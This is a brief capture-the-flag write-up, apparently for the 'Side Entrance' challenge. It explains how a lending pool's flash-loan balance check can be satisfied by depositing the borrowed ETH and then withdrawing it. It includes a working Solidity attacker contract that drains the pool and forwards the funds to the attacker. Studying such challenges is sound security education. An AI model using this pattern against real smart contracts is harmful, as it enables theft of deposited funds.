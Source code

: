 ## Side Entrance solution

As always, we have to drain the pool. This time it has `deposit` and `withdraw` capabilities with a mapping of balances. On a `flashLoan` function there is a check wheter balances of ETH before and after external call are the same. This means we can execute a flashloan, deposit all ETH taken from the pool via `deposit` function during the flashLoan and withdraw it after the flashLoan, all in a single transaction.

```
    function attack() external {
        pool.flashLoan(address(pool).balance);
        pool.withdraw();
        (bool success, ) = attacker.call{value: address(this).balance}("");
        require(success);
    }

    function execute() external payable override {
        pool.deposit{value: address(this).balance}();
    }
```